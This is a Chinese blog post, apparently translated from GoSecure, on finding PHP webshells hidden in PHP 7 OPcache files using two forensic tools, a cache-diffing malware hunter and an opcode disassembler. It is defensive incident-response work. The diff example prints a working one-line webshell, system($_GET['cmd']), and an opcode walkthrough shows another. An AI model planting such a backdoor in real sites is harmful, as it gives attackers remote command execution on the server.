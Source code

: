 title: 在php opcache检测隐藏的后门程序
date: 2016-05-27 16:44:32
tags:
- Blogs
- php
categories:
- Blogs
---

文章是来自于前段时间发现Opcache可以构造php webshell的作者博客。

from [http://blog.gosecure.ca/2016/05/26/detecting-hidden-backdoors-in-php-opcache/](http://blog.gosecure.ca/2016/05/26/detecting-hidden-backdoors-in-php-opcache/)

本文讲的是怎么检测和分析隐藏在opcache中的恶意文件，在阅读这篇文章之前，你需要明白关于上次文章提到的利用php7 的 opcache构造webshell的利用方法。
原文[http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/)

wooyun的翻译[http://drops.wooyun.org/web/15450](http://drops.wooyun.org/web/15450)

<!--more-->

# 脚本 #

![PHP executing the malicious OpCache first](/img/php/confoo_cache_opcode.png)

在上一篇文章中，我们发现可以通过这样的方式，隐藏opcache内部的恶意文件。在实际环境中，当web服务器已经被入侵，我们可以能很难找到受到感染的opcache文件。由于目前的大多数文件都是通过扫描源文件的代码来判断是否存在webshell的，由于opcache的特殊性，恶意文件的研究人员和事件响应团队难以分析。

基于这种目的，我们开发了两个工具，以帮助找到并理解opcache文件中隐藏的后门
[https://github.com/GoSecure/php7-opcache-override](https://github.com/GoSecure/php7-opcache-override)

## 1. OPcache Malware Hunter ##

正如我们前面提到的，目前的工具大多都是通过检测源文件来判断php的恶意文件。如果出现了事件响应小组不知道攻击来自何方的情况，我们需要一个有效的方式来判断opcache是不是受到了感染。我们创建了OPcache Malware Hunter来发现可能受到感染的opcache文件

```
$ ./opcache_malware_hunt.py
Usage : ./opcache_malware_hunt.py [opcache_folder] [system_id] [php.ini]
```

OPcache Malware Hunter需要提供缓存目录和**system_id**，并用它来确定相应的源代码位置。该工具根据php.ini中的设置编译自己的opcache文件，通过比对和现有缓存文件的差异来判断是否发生了任何更改，无论多么模糊的文件内容都会被发现。

下面是OPcache Malware Hunter产生缓存文件和现有的缓存文件
![OPcache Malware Hunter](/img/php/Screen-Shot-2016-05-16-at-10.44.34-AM-700x123.png)

如果发现了潜在的受感染文件，OPcache Malware Hunter会生成一个包含更多信息的html报告
![Potentially infected files](/img/php/Screen-Shot-2016-05-16-at-10.48.49-AM-700x119.png)

该文件在生成的hunt_report文件夹下的index.html
![](/img/php/index-700x125.png)

点开任意一项都能看到原始文件和潜在受感染文件的差异报告

![Example report](/img/php/diff-700x283.png)

在图中，我们可以看到左边列表表示原来的缓存文件，右边裂变表示当前的缓存文件。我们可以看到，我们的缓存文件已经被替换成了一个webshell。
```
<?php 
system($_GET['cmd'])
?>

```
需要注意的是，OPcache Malware Hunter被设计为必须访问这些缓存文件、源文件、和服务器环境相同配置的php.ini，这样才能成功的检测出差异。

## 2. OPcache Disassembler ##

反汇编在恶意软件的分析中是非常有用的，opcache文件基本上是对应的源代码的字节码，类似于java和python的字节码。由于opcache文件的特性，似乎需要一个专用的反汇编器，帮助分析在袭击后恶意代码的行为。

### How It Works ###

OPcache Disassembler提供了两种显示选项，语法树和伪代码。
```
$ ./opcache_disassembler.py
Usage : ./opcache_disassembler.py [-tc] [file]
    -t Print syntax tree
    -c Print pseudocode
```

语法树提供了调用顺序的每一个操作码、函数和类的层次结构视图。然后，每个操作码被分为3个部分（操作数1、操作数2、结果）

![Syntax tree extract](/img/php/Screen-Shot-2016-05-03-at-3.14.01-PM-300x178.png)

尽管语法树的视图提供了一些资料，显示伪代码让事情变得更易读。对于同一个文件-c会更友好

![Pseudocode extract](/img/php/Screen-Shot-2016-05-04-at-10.16.53-AM-300x42.png)

在[官方文档](http://php.net/manual/en/internals2.opcodes.php)的帮助下，阅读操作码的意义不大。比起这个，伪代码更容易理解，在这里我们看到_GET变量并使用了'test'。那么我们猜测源代码可能是`isset($_GET['test'])`。

对于包含函数和类的opcache文件，反汇编器输出php语法来提高可读性，甚至还有语法高亮

![Disassembled classes and functions](/img/php/Screen-Shot-2016-05-04-at-3.58.47-PM-700x646.png)

在对于恶意软件的分析，我们可以用这个工具大致重现一下原来php文件的样子。另外，在上述反汇编代码，7-13行就是用于webshell的操作码

- 7-9行驶把$_GET['test']赋给!1
- 10行有个条件判断，如果没有满足跳到15行
- 11-13行调用系统!1

下面就是源代码，我们可以看到最后两行是webshell

![Original Source Code](/img/php/Screen-Shot-2016-05-04-at-3.57.11-PM-700x383.png)

# 结论 #

The disassembler and malware hunter 在我们web服务器中分析opcache的webshell非常好用，在受到攻击的情况下，这些工具可以检测违反的来源，并发现这些恶意文件是如何运作的...

# 参考 #

[PHP Malware Finder](https://github.com/nbs-system/php-malware-finder) by NBS System
[PHP Backdoor Obfuscation Techniques](https://vexatioustendencies.com/php-backdoor-obfuscation-techniques/) by Voxel@Night
[Understanding Opcodes](http://blog.golemon.com/2008/01/understanding-opcodes.html) by Sara Golemon
[Zend Engine 2 Opcodes](http://php.net/manual/en/internals2.opcodes.php) PHP Official Documentation